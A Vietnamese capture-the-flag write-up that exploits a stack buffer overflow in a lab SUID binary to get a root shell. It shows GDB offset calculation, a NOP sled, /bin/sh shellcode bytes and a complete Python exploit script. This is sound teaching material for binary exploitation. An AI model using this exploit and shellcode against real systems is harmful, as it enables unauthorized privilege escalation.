


# EXTRA CREDIT - CYBERCLASS


<p align="center">
  
</p>

<p align="center"> <b> Write up by: Zunn</b></p> 

## **Contents**

- [Introduction](#Introduction)
- [Address the problem](#address-the-problem)
  - [GDB](#gdb-secret)
  - [shellcode](#shellcode)
  - [Nopsled](#nopsled)
- [Flag](#flag)
- [Links](#links)

## **Introduction**

- Công cụ em sử dụng để debug là *gdb (plugin peda)*
- Mã khai khác em viết bằng code *python* .


Đề bài cho ta 1 file **executable** và được chạy dưới quyền **suid**, nhiệm vụ phải lon ton lên root để tìm được **flag**. Đầu tiên chạy file **executable** xem có gì trong đó nào...

## **Address the problem**


Hmmmm.....có vẻ như chương trình chỉ in ra lại những gì đã được nhập vào và không còn thông tin nào thêm. Tuy nhiên, ta sẽ bắt đầu tìm hiểu file binary bằng cách in ra xâu có độ dài khá lớn.

```r
  python3 -c "print( 'a' * 10000)" | ./secret
```


`Segmentation fault` :3 Quả nhiên secret bị crash với test của chúng ta. Dễ dàng nhận thấy lỗ hổng stack base `buffer overflow` rất rõ ràng. 

### **GDB secret**

Để thuận tiện hơn ta sẽ tạo một file  **a.txt** để chứa xâu ta cần nhập và ta dùng echo để ghi đè dữ liệu vào.

```r
echo'padding = 100 * 'a'
print (padding)'> a.py
```

```r
python3 a.py> a.txt
```

Giờ thì mở **gdb** lên để phân tích.


Nhìn vào ta thấy chỗ tốt nhất để **break point** là leave trước return **istruction**. Dòng thứ hai từ dưới main lên.


Sau khi run, dựa vào info name ta xác định được đây là [64-bit Stack-based Buffer Overflow](https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/64-bit-stack-based-buffer-overflow) và `rip at 0x7fffffffe5b8`

Để tìm buffer’s size, một trong những cách ta có thể dùng sẽ lấy `rip - rsp` . Dùng câu lệnh sau để show 24wx từ vị trí đầu stack.

```r
x/24wx $rsp
```


Dòng đầu tiên ta thấy địa chỉ `0x7fffffffe1b0` mang giá trị `0x61616161` : kí tự `a` bé. Đây chính là đầu vào của chúng ta, yeye đã biết địa chỉ đầu stack giờ ta tính **buffer’s size**.

```r
 p/d 0x7fffffffe5b8 - 0x7fffffffe1b0
```


Vậy **buffer's size** sẽ là 1032 kí tự *a*.

### **Shellcode**

Chuyện gì sẽ xảy ra nếu như ta thay đổi thanh ghi **RIP** thành địa chỉ Shellcode, rõ ràng, chương trình sẽ chạy Shellcode của chúng ta rồi. Thú vị rồi đây.

Khá là đầy đủ thông tin,  giờ ta tiến hành tìm một đoạn shellcode trên **Google** (shell-storm, exploit-db, packetstormsecurity,..). Có kha khá khác nhau để code shell nhưng em sẽ dùng cách **`padding + RIP + NOP + shellcode`**

`Shellcode: Là đoạn code mà chúng ta muốn chương trình execute.`

Dựa vào các thông tin như: 64 bit và file binary chạy dưới quyền **suid**. Vậy shellcode sẽ thực thi **/bin/sh** thì chúng ta sẽ get a root shell. Ok!! Giờ thì ta lên [Shell-strom](http://shell-storm.org/shellcode/#:~:text=by%20Christina%20Quast-,Intel%20x86%2D64,-Linux/x86%2D64) tìm thôiiiiiiii.

Sau khi tìm kiếm và xem xét điều kiện cần và đủ shell code này là phù hợp:

```r
\x48\x31\xff\xb0\x69\x0f\x05\x48\x31\xd2\x48\xbb\xff\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x48\x31\xc0\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05\x6a\x01\x5f\x6a\x3c\x58\x0f\x05
```

## **Nopsled**

`Nopsled: 0x90 nghĩa là không thực hiện điều gì`

Về cơ bản, không có thao tác nào được sử dụng để đảm bảo rằng việc khai thác của chúng ta không bị lỗi, bởi vì chúng ta không phải lúc nào cũng trỏ đến đúng địa chỉ.Vì vậy chúng ta thêm những thứ không có tác dụng gì và chúng ta trỏ đến chúng, sau đó khi chương trình thực thi nó. Và quaoo sẽ tiếp cận các NOP đó và tiếp tục thực thi cho đến khi nó đạt đến shellcode.

Giờ ta buid code thoi

```r
import struct
offset = 1032
shellcode = b'\x48\x31\xff\xb0\x69\x0f\x05\x48\x31\xd2\x48\xbb\xff\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x48\x31\xc0\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05\x6a\x01\x5f\x6a\x3c\x58\x0f\x05'
NOP = b'\x90' * 1000
padding = 1032 * b'a'
print (padding + RIP + NOP + shellcode)
```

`Trong quá trình code ta nhận thấy hoặc giờ em mới thấy :))`

[TypeError: can only concatenate str (not "bytes") to str ](
https://bobbyhadz.com/blog/python-typeerror-can-only-concatenate-str-not-bytes-to-str#:~:text=The%20Python%20%22TypeError%3A%20can%20only,string%20before%20concatenating%20the%20strings
)

Giờ chúng ta sẽ gdb để kiểm tra và chọn địa chỉ của NOP ( tốt nhất là nó nằm ở giữa bởi trong quá trình chạy chương trình, địa chỉ có thể chênh lệch khiến NOP mang địa chỉ không theo mong muốn)


Hmmmmmmmm.... chúng ta đang lỗi gì đó dấu '`>`' không chuyển được kí tư utf-8. Giờ ta sẽ nhập xuất file xem như thế nào

```r
import struct
offset = 1032
shellcode = b'\x48\x31\xff\xb0\x69\x0f\x05\x48\x31\xd2\x48\xbb\xff\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x48\x31\xc0\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05\x6a\x01\x5f\x6a\x3c\x58\x0f\x05'
NOP = b'\x90' * 1000
padding = 1032 * b'a'
p = (padding + NOP + shellcode)
file = open('a.txt' ,'wb')
file.write(p)
file.close()
```


Excute file python thoi -> `python3 a.py > a.txt` và xác định NOP.


Ye rất đúng theo suy nghĩ của chúng ta. Vì shell code chúng ta nằm ở cuối nên ta sẽ in từ vị trí rsp

```r
(gdb) x/100xg $rbp
```



Ta sẽ lấy NOP ở giữa  `0x7fffffffe710` để tránh chênh lệch khi chương trình thực thi. Sau khi có đầy đủ mọi thứ ta sẽ hoàn chỉnh chương trình như sau:

```r
import struct
offset = 1032
RIP = struct.pack('Q',0x7fffffffe710)
shellcode = b'\x48\x31\xff\xb0\x69\x0f\x05\x48\x31\xd2\x48\xbb\xff\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x48\x31\xc0\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05\x6a\x01\x5f\x6a\x3c\x58\x0f\x05'
NOP = b'\x90' * 1000
padding = 1032 * b'a'
p = (padding + RIP + NOP + shellcode)
file = open('a.txt' ,'wb')
file.write(p)
file.close()
```

Tiến hành chạy lại secret xem có lên được shell hay không?

 ```r
 (cat a.txt ; cat) | ./secret
 ```


Okie, code exploit đã chạy và chúng ta đạ execute shellcode thành công. Thế là ta đã thành công lkhai tháo lỗi Buffer Overflow rồi. Giờ lấy flag thoiii!!

## **Flag**



Ta đã leo lên root nên chỉ cần  `cd /root` ta sẽ thấy file tên `flag-whoa.txt` .UwwwwU `cat flag-whoa.txt` ta dễ dàng có được kết quả mong muốn.

 ```r
 CYBERCLASS{WHOA-BAN-DINK-KOUT-WA-CHUC-MUNG-BAN-!!!}
 ```

## **Links**

Vì đây là lần đầu em viết write-up nên em đã tham khảo các nguồn sau:

[First Exploit! Buffer Overflow with Shellcode - bin 0x0E](https://www.youtube.com/watch?v=HSlhY4Uy8SA)
[Buffer Overflow Examples](https://0xrick.github.io/binary-exploitation/bof5/#stack5)
[Buffer Overflow - in a nutshell](https://viblo.asia/p/buffer-overflow-in-a-nutshell-m68Z0ox6KkG)
[Shellcode là gì?](https://vietnix.vn/shellcode-la-gi/)
[Khai thác Buffer Overflow – Control EIP (Nopsled + Shellcode)](https://hoccyber.com/buffer-overflow-eip/)

